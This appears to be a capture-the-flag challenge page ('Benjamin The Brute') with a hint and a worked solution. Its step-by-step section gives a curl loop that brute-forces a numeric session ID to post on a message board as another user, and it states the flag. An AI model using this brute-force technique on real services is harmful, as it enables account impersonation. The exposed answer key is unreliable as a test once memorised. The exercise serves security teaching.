 # 🥊 Benjamin The Brute - L11 C06

Agent 707, one of the gang, Benjamin Goldleaf, was yesterday overheard by our inside undercover agent talking about posting notices on a secret message board that the gang use to communicate meeting times.

With a bit of detective work we've managed to find the message board and get Bens user details. We want to post a fake message using the API to try and draw one of the more senior gang members out, but we can't get it to work. See if you can.

**Tip:** Successfully post a notice on the board to get the flag.

<details><summary>

## Need a hint?</summary>

```txt
💡 Hint: There seems to be a required parameter - "sessID" - requiring a number. There aren't too many users,
   maybe try brute forcing this value. You could do that in Python or you could write a BASH script using CURL.
```

</details>

<details><summary>

## Step by Step</summary>

- Open a Linux terminal
- Run `for i in {1..100}; do curl -X POST -d "userID=24&sessID=$i" https://bondogge.com/createPost; echo ""; done`
- This will eventually reach to correct sessID of `78` and spit out the flag

`flag: br1ti5h.bulld0gZ`

</details>
